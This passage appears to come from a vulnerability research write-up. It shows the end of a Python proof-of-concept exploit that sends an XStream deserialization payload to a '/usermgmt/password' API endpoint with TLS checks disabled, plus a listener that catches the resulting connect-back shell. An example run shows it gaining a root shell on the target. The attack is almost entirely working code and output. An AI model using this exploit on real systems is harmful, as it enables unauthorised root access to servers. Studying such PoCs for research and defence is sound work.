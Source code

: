 ```py
                </command>
            </target>
            <action>start</action>
        </handler>
    </dynamic-proxy>
</sorted-set>"""

def handler(lp):
    print(f"(+) starting handler on port {lp}")
    t = Telnet()
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.bind(("0.0.0.0", lp))
    s.listen(1)
    conn, addr = s.accept()
    print(f"(+) connection from {addr[0]}")
    t.sock = conn
    print("(+) pop thy shell!")
    t.interact()

if __name__ == "__main__":
    if len(sys.argv) != 3:
        print(f"(+) usage: {sys.argv[0]} <target> <connectback:port>")
        print(f"(+) eg: {sys.argv[0]} 192.168.18.135 172.18.182.204:1234")
        sys.exit(1)
    target = sys.argv[1]
    rhost  = sys.argv[2]
    rport  = 1234
    if ":" in sys.argv[2]:
        assert sys.argv[2].split(":")[1].isdigit(), "(-) didnt supply a valid port"
        rport = int(sys.argv[2].split(":")[1])
        rhost = sys.argv[2].split(":")[0]
    handlerthr = Thread(target=handler, args=[rport])
    handlerthr.start()
    # trigger rce
    requests.put(
        f"https://{target}/api/2.0/services/usermgmt/password/1337", 
        data=xstream.format(rhost=rhost, rport=rport), 
        headers={
            'Content-Type': 'application/xml'
        }, 
        verify=False
    )
```

## Example:

```
researcher@neophyte:~$ ./poc.py
(+) usage: ./poc.py <target> <connectback:port>
(+) eg: ./poc.py 192.168.18.135 172.18.182.204:1234

researcher@neophyte:~$ ./poc.py 192.168.18.135 172.18.182.204:1337
(+) starting handler on port 1337
(+) connection from 172.18.176.1
(+) pop thy shell!
bash: cannot set terminal process group (5847): Inappropriate ioctl for device
bash: no job control in this shell
bash-5.0# id
id
uid=0(root) gid=101(secureall) groups=101(secureall)
```
